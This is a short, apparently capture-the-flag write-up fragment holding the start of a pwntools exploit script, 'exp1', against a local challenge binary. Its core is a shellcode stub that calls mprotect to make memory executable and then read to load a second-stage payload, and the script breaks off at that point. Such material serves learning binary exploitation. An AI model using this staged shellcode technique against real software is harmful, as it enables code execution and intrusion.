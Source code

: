 [![](assets/1708654729-0c4971c7f53126553823421cb3ac8849.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104559-584355b8-d063-1.png)

### exp1

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process("./pwn")

def duan():
    gdb.attach(p)
    pause()

shell1=asm('''
    shl edi,12
    mov dx,0x7
    mov ax,10
    syscall
    cdq
    mov esi,edi
    xor edi,edi
    xor eax,eax
    syscall
''')
```